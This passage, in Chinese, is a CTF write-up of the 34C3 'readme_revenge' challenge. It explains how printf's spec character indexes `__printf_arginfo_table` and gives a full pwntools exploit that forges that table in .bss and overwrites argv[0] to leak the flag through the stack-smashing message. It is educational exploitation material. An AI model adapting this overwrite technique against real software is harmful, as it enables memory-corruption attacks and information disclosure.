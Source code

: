 ```c
```
然后发现 `spec` 被直接用做数组 `__printf_function_table` 和 `__printf_arginfo_table` 的下标。`s` 也就是 `0x73`，这和我们在 gdb 里看到的相符：`rdx=0x73`，`[rax+rdx*8]`正好是数组取值的方式，虽然这里的 `rax` 里保存的是 `__printf_modifier_table`。


## 漏洞利用
有了上面的分析，下面我们来构造 exp。

回顾一下 `__parse_one_specmb()` 函数里的 `if` 判断语句，我们知道 C 语言对 `||` 的处理机制是如果第一个表达式为 True，就不再进行第二个表达式的判断，所以为了执行函数 `*__printf_arginfo_table[spec->info.spec]`，需要前面的判断条件都为 False。我们可以在 `.bss` 段上伪造一个 `printf_arginfo_size_function` 结构体，在结构体偏移 `0x73*8` 的地方放上 `__stack_chk_fail()` 的地址，当该函数执行时，将打印出 `argv[0]` 指向的字符串，所以我们还需要将 `argv[0]` 覆盖为 flag 的地址。

Bingo!!!
```
$ python2 exp.py 
[+] Starting local process './readme_revenge': pid 14553
[*] Switching to interactive mode
*** stack smashing detected ***: 34C3_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX terminated
```

#### exploit
完整的 exp 如下：
```python
from pwn import *

io = process('./readme_revenge')

flag_addr = 0x6b4040
name_addr = 0x6b73e0
argv_addr = 0x6b7980
func_table = 0x6b7a28
arginfo_table = 0x6b7aa8
stack_chk_fail = 0x4359b0

payload  = p64(flag_addr)       # name
payload  = payload.ljust(0x73 * 8, "\x00")
payload += p64(stack_chk_fail)  # __printf_arginfo_table[spec->info.spec]
payload  = payload.ljust(argv_addr - name_addr, "\x00")
payload += p64(name_addr)       # argv
payload  = payload.ljust(func_table - name_addr, "\x00")
payload += p64(name_addr)       # __printf_function_table
payload  = payload.ljust(arginfo_table - name_addr, "\x00")
payload += p64(name_addr)       # __printf_arginfo_table

# with open("./payload", "wb") as f:
#     f.write(payload)

io.sendline(payload)
io.interactive()
```


## 参考资料
- https://ctftime.org/task/5135
- [Customizing printf](https://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html)
